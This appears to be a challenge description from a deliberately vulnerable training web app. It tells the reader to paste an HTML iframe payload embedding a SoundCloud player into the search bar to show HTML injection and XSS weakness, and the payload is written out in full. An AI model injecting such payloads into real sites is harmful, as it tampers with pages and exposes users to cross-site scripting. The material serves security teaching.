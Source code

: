 # Bonus Payload Challenge 🎵

## Objective

The goal of this challenge is to test the application's input sanitization by injecting a multimedia payload. By exploiting the search bar's vulnerability, you can embed external content into the application, demonstrating its susceptibility to attacks like Cross-Site Scripting (XSS).

## Instructions

To complete this challenge, paste the following payload into the search bar located on the navbar:

```html
<iframe
  width="100%"
  height="166"
  scrolling="no"
  frameborder="no"
  allow="autoplay"
  src="https://w.soundcloud.com/player/?url=https\3A
//api.soundcloud.com/tracks/7719840765color=\23ff55006
auto_play=true&hide_related=false&show_comments=true&
show_user=true&show_reposts=false&show_teaser=true"
>
</iframe>
```

This will embed a SoundCloud player into the page and trigger the **Bonus Payload** challenge!
